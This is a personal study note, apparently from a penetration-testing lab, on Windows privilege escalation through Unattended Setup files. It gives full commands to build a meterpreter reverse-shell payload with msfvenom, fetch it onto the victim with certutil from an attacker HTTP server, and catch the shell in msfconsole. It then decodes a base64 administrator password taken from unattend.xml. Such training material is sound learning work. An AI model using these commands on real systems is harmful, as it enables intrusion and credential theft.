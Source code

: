#### Unattended Windows Setup ####
+ The <mark style="background: #BBFABBA6;">Unattended Windows setup</mark> utility will typically utilize one of the following configuration files that contain user account and system configuration information:
	+ `C:\Windows\Panther\Unattend.xml`
	+ `C:\Windows\Panther\Autounattend.xml`
+ As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be <mark style="background: #ADCCFFA6;">encoded in base64</mark>

On a unprivileged windows account, can check for other users with `net user`
	+ can also so the unprivileged accounts privileges with `whoami /priv`

On a Kali OS, we will generate a reverse shell with <mark style="background: #D2B3FFA6;">msfvenom</mark>
+ Example: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.9.2 LPORT=1234 -f exe > payload.exe`

With the payload, can set up a simple http server with the python module <mark style="background: #D2B3FFA6;">SimpleHTTPServer</mark> on the Kali OS
+ Example: `python -m SimpleHTTPServer 80`
+ Now we can go to the windows computer we are attacking, and use the server we are running on the Kali os to allow the windows computer to download the payload 

On the windows computer we are attacking, can <mark style="background: #ADCCFFA6;">download the payload</mark> with <mark style="background: #D2B3FFA6;">certutil</mark>
+ Example: `certutil -urlcache -f http://10.10.9.2/payload.exe payload.exe` where the IP is the Kali computer 

Will now go into <mark style="background: #FF5582A6;">msfconsole</mark> to set up the handler
+ Can do so with: `service postgresql start && msfconsole`
+ Will then `use multi/handler`
	+ `set payload windows/x64/meterpreter/reverse_tcp`
	+ `set LPORT 1234`
	+ `set LHOST 10.10.9.2`
+ Will now have a <mark style="background: #BBFABBA6;">reverse shell</mark> after running it, can find the `unattend.xml` and `download` it

When we `cat` the `unattend.xml`, we will scroll till we see `<AutoLogon>`
+ Example:
``` xml
<AutoLogon>
    <Password>
        <Value>QWRtaW5AMTIz</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>administrator</Username>
```
+ Here we can see the administrators password, and that it is <mark style="background: #BBFABBA6;">base64</mark> encoded because the `<PlainText>` value is **false**

To remove the <mark style="background: #BBFABBA6;">base64</mark> encoding, will do the following:
+ `vim password.txt` and paste the encoded password in it
+ Utilize the <mark style="background: #D2B3FFA6;">base64</mark> tool with the `-d` option to decode
	+ Example: `base64 -d password.txt`
		+ which outputs `Admin@123`
